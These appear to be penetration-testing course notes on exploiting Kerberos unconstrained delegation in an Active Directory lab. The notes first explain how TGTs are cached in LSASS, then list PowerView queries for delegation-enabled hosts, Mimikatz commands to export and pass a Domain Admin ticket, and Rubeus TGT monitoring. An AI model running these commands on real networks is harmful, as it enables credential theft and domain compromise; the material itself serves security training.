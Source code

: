 • There are two types of Kerberos Delegation: 

– General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.
– Constrained Delegation which allows the first hop server (web server in our example) to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to the first hop server, Windows offers Protocol Transition to transition the request to Kerberos. 

• Please note that in both types of delegations, a mechanism is required to impersonate the incoming user and authenticate to the second hop server (Database server in our example) as the user.

• When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user. 

• When unconstrained delegation is enabled, the DC places user's TGT inside TGS (Step 4 in the previous diagram). When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user. 

• This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.

#### Discover domain computers which have unconstrained delegation enabled using PowerView:
```powershell
Get-NetComputer -UnConstrained

# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True} 
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

#### Run following command on it to check if any DA token is available: 
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets"'
```

#### We must trick or wait for a domain admin to connect a service on appsrv. Now, if the command is run again: 
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"' 
```

#### The DA token could be reused: 
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgtDOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

### Coerce Authentication to Computer of Choice

#### We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
(https://github.com/GhostPack/Rubeus) 
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap 
```
